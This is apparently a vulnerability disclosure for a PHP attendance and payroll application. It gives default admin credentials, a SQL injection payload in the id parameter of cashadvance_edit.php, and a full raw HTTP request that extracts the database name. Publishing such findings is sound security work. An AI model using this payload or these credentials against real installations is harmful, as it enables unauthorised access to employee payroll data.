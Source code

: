 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\cashadvance_edit.php has SQL injection

Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&amount=1000&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159258881-906b82f2-3d54-4d8a-b4e0-b0d09cae87a1.png)

```sql
POST /apsystem/admin/cashadvance_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 83
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/cashadvance.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&amount=1000&edit=
```

![image](https://user-images.githubusercontent.com/54017627/159259044-449bb655-5c60-4bf2-b66c-0d20b7656ffe.png)

![image](https://user-images.githubusercontent.com/54017627/159259071-52a66f52-727b-4243-8a73-d3a9651c2141.png)
